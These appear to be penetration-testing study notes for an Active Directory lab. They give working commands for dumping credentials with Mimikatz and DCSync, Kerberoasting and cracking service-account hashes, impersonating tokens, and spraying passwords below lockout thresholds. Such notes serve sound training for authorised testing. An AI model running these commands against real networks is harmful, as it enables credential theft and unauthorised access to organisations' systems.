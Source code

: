 ## Active Directory Authentication

### Get user hashes with Mimikatz

Note: Requires admin rights and mimikatz standalone executable

```powershell
# Run SeDebugPrivilege to interact with process owned by another account
privilege::debug 
# Dump creds of all logged-on users with SecureLSA module
sekurlsa::logonpasswords
```

Look for hashes like NTLM, SHA1, etc.  The hashes vary based on the AD configuration.

From a Domain Controller, run the following to dump all password hashes

```powershell
privilege::debug
lsadump::lsa /inject
```

You can also dump password hashes from a DC remotely, as shown on this page

https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/

```powershell
# Dump everything
lsadump::dcsync /domain:corp.com /all /csv

# Dump all info for a specific user
lsadump::dcsync /domain:corp.com /user:test
```

### Get Tickets

```powershell
# Show a user's tickets
sekurlsa::tickets
```

A Ticket Granting Service is only good on that specific service, but a Ticket Granting Ticket is good to request more TGS's.

### Download a Ticket to Disk

Once tickets are cached into memory, they can be downloaded to storage

```powershell
kerberos::list /export
```

### Service Account Attacks

Request a service ticket for a known SPN from the DC, extract it from local memory and save it to the disk, then attempt to crack the hash of the service account.

#### The Hard Way (Traditional)

1. Use the Powershell Enumeration Script to search for the service and show the properties to get the SPN  name
   Ex: `{HTTP/CorpWebServer.corp.com}`

2. Use the KerberosRequestorSecurityToken class in Powershell

   ```powershell
   Add-Type -AssemblyName System.IdentityModel
   
   # Options
   System.IdentityModel	# Namespace containing the code segment, not loaded into a Powershell instance by default
   Add-Type -AssemblyName	# Tells Powershell to load an instance
   ```

3. Request a service ticket using the `System.IdentityModel.Tokens.KerberosRequestorSecurityToken` constructor.

   ```powershell
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
   ```

   It will load this ticket into the memory of the client.

4. You could use Mimikatz (see above section) or klist to show the cached tickets

   ```powershell
   klist
   ```

5. Use Mimikatz to dump the ticket to disk (see above section)

6. Transfer the file to Kali Linux to start cracking it and make sure kerberoast is installed on Kali

   ```bash
   sudo apt update && sudo apt install kerberoast 
   ```

7. Run tgsrepcrack.py and give it a wordlist and the service ticket to start cracking it.

   ```bash
   python3 /usr/share/kerberoast/tgsrepcrack.py wordlist.txt /ftphome/1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
   ```

8. Alternately, you can use John the Ripper.

   ```bash
   # Download Kerberoast from Github and use kirbi2john.py from it
   sudo python3 ./kirbi2john.py 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi > http_jtr_hash
   
   # Crack with John
   john --format=krb5tgs http_jtr_hash --wordlist=wordlist.txt
   ```

#### The Easy Way (Modern)

1. Load `Invoke-Kerberoast.ps1` from the [Empire suite](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) into memory on Windows (remember to set the execution policy to unrestricted)

   ```bash
   . .\Invoke-Kerberoast.ps1
   ```

2. Run the script

   ```powershell
   # JTR format
   Invoke-Kerberoast -OutputFormat john | Select-Object -ExpandProperty hash |% {$_.replace(':',':$krb5tgs$23$')}
   
   # Hashcat and maybe also JTR - found this on a website
   Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath HashCapture.txt -Width 8000
   ```

3. It seems like the Hashcat output format works for either JTR or Hashcat, but for the John output format, examine the hash output and make sure there are no extra instances of `$krb5tgs$23$` inside the SPN section (which will occur if the SPN contains a colon).  There were only one instance of that string after the SPN and at the very beginning I had `$krb5tgs`.  If this is not right, it will cause JTR to not recognize the hash.  If you need to see the original hash, just run `Invoke-Kerberoast` by itself.  

4. Paste the hash into a file and feed it to JTR/Hashcat to start cracking.

   ```bash
   hashcat -m 13100 --force <TGSs_file> <passwords_file>
   
   john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
   ```

#### Using Service Accounts

1. After cracking the password of a service account, check it's group memberships

   ```powershell
   net user USERNAME /domain
   ```

2. Some things to try with the account are:

   1. Remote Desktop:

      ```bash
      rdesktop 10.11.1.121 -u username -p password -d domain.com
      ```


Kerberoast Cheat Sheet:  https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

### Impersonation

With a Meterpreter shell and the Incognito module, you can impersonate a loaded ticket (Note: this may require the seimpersonate permission for the current user)

```bash
load incognito
list_tokens -u
impersonate_token sandbox\\Administrator
```

### Low and Slow Password Guessing

Too many failed logins can lockout an account and alert SysAdmins.

#### PowerShell Script

1. Look up the domain account policy:

   ```powershell
   net accounts
   ```

   - Lockout Threshold - shows how many failed attempts trigger a lockout.  You may safely login N-1 times without a lockout.
   - Lockout Duration - shows how many minutes before you get another 'free' login attempt.  This is not a total reset for the threshold, it just gives another single free attempt.
   - We can then use this information to mount an attack against a massive amount of users at once using common weak passwords.

2. Use the same script that was to enumerate user accounts to login as a different user, supplying the username and password.  See the 'AD Password Enumeration' section of  Scripts\Powershell\Scripts\ad_enumeration.md

#### Spray-Passwords.ps1

This custom script allows you to specify parameters and it will use a supplied password or wordlist to brute force multiple users at once.  

https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

```powershell
.\Spray-Passwords.ps1 -File wordlist.txt -Admin

# Options
-Admin	# Targets privileged user accounts
-File	# Specify a local wordlist
-Pass	# Specify a single password
-Url	# Specify a remote wordlist
```

